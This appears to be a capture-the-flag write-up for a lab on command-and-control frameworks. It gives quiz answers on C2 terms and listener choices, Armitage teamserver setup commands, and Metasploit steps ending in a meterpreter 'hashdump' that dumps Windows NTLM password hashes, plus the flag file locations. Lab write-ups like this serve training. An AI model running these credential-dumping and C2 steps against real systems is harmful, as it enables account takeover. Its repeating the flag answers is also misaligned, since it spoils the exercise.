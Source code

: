 Task 2

What is the term for the software on a compromised computer that communicates back to a command and control (C2) server?
Agent


What is the beaconing option that introduces a random delay value to the sleep timer?

Jitter


What is the term for the first portion of a Staged payload?

Dropper

What is the name of the communication method that can potentially allow access to a restricted network segment that communicates via TCP ports 139 and 445?

SMB Beacon

Task 5

Which listener should you choose if you have a device that cannot easily access the internet?
DNS

Which listener should you choose if you're accessing a restricted network segment?

SMB


Which listener should you choose if you are dealing with a Firewall that does protocol inspection?

HTTPS

Task 6

What is the Administrator's NTLM hash?

msfconsole -q
set LHOST <network-interface>
set RHOST <victim_ip>
run


meterpreter> hashdump


What flag can be found after gaining Administrative access to the PC?

Follow the steps on Task 4

git clone https://gitlab.com/kalilinux/packages/armitage.git && cd armitage
bash package
systemctl start postgresql && systemctl status postgresql.sh
export MSF_DATABASE_CONFIG=/root/.msf4/database.yml
cd /opt/armitage/release/unix && ./teamserver YourIP P@ssw0rd123
cd /opt/armitage/release/unix && ./armitage (in other terminal tab)

![Insert the correct info according to your Host IP Address](image.png)


![alt text](image-1.png)

Then, follow the steps on Task 4 adapting to your needs

![alt text](image-2.png)

![Your Machine IP Address](image-3.png)

![alt text](image-4.png)

![alt text](image-5.png)

![alt text](image-6.png)

![alt text](image-7.png)

After you gain access, the flag is at C:\Users\Administrator\Desktop\root.txt

What flag can be found after gaining access to Ted's user account?

After you gain access, the flag is at C:\Users\Ted\Desktop\user.txt

What is Ted's NTLM Hash?



msfconsole -q
set LHOST <network-interface>
set RHOST <victim_ip>
run


meterpreter> hashdump


